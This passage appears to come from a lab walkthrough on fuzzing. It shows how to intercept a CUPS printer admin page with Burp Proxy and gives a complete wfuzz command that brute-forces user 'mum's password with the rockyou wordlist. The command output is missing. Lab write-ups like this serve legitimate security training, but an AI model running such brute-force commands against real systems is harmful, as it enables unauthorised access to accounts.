


4.1 Fuzzing
1. You have to discover the credentials to access the printer's options. You need some data from the page. Intercept with Burp Proxy http://192.168.12.76:631/admin.

You can see there's an interesting data:
• org.cups.sid=a2d6847dfa1a3159baaccf9c56089e18&OP=add-printer
3. Run the following command on your Kali Machine in order to get mum's password.
$ wfuzz -c -w /usr/share/wordlists/rockyou.txt --basic mum:FUZZ -u http://192.168.12.76:631/admin -b "org.cups.sid=a2d6847dfa1a3159baaccf9c56089e18" -d "org.cups.sid=a2d6847dfa1a3159baaccf9c56089e18&OP=add-printer" -Z --hc 401
Output:
